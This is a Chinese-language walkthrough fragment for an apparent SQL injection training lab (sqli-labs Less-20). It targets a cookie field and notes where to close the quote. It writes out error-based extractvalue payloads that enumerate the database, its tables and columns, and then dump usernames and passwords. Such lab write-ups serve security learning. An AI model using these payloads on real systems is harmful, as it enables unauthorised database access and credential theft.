 得知单引号闭合。

![image-20220115192012223](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less20-cookie.assets/image-20220115192012223.png)

注意cookie后面有`;`，因此我们操作需要在分号前操作。



```
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #

admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #
```

![image-20220115192035724](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less20-cookie.assets/image-20220115192035724.png)



```
' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="security"),0x7e)) #

' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),0x7e)) #

' and extractvalue(1,concat(0x7e,(select substr(group_concat(username,0x7e,password),1) from users),0x7e)) #
```

![image-20220115192147089](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less20-cookie.assets/image-20220115192147089.png)

......

注意注入位置：

![image-20220115192216509](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less20-cookie.assets/image-20220115192216509.png)
